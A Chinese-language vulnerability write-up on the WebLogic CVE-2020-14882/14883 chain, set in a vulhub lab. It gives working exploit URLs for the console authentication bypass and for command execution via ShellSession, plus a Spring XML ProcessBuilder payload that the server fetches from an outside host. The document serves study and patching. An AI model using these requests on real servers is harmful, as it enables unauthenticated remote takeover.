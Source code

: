 # 漏洞名称：Weblogic 管理控制台未授权远程命令执行漏洞

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

 Weblogic是Oracle公司推出的J2EE应用服务器，Oracle WebLogic Server 多版本的Oracle Fusion Middleware 存在安全漏洞，该漏洞使未经身份验证的攻击者可以通过HTTP访问网络，从而破坏Oracle WebLogic Server。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

参考链接：

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

------

### 漏洞危害

远程代码执行漏洞 （CVE-2020-14882）POC 已被公开，未经身份验证的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，危害巨大。

------

### 影响范围

* weblogic 10.3.6.0.0
* weblogic 12.1.3.0.0
* weblogic 12.2.1.3.0
* weblogic 12.2.1.4.0
* weblogic 14.1.1.0.0

------

## 漏洞利用


---

### 靶机环境

vulhub/weblogic/CVE-2020-14882


---

### 利用方法1

**探测确认**

使用 weblogicScanner(https://github.com/0xn0ne/weblogicScanner)探测是否存在该漏洞

```
python3 ws.py -v CVE-2020-14882 -t 192.168.1.189:7001
```

![01](./img/weblogic_CVE-2020-14882/01.png)

首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![02](./img/weblogic_CVE-2020-14882/02.png)

成功登录到后台页面。

虽然利用漏洞CVE-2020-14882成功登录到后台页面，但当前用户是低权限用户，并不能执行命令。此时需要用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

![04](./img/weblogic_CVE-2020-14882/04.png)

页面显示404，回到服务器端执行如下命令登录到容器里面

```
docker exec -i -t 容器id /bin/bash
```

![03](./img/weblogic_CVE-2020-14882/03.png)

可以看到success1成功创建，命令执行成功。

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

### 利用方法2

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://10.82.234.169:8000/rce.xml")
```

![06](./img/weblogic_CVE-2020-14882/06.png)

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

------

## 威胁防护建议

1. Oracle官方最新漏洞修复补丁；
2. 临时关闭后台/console/console.portal的对外访问

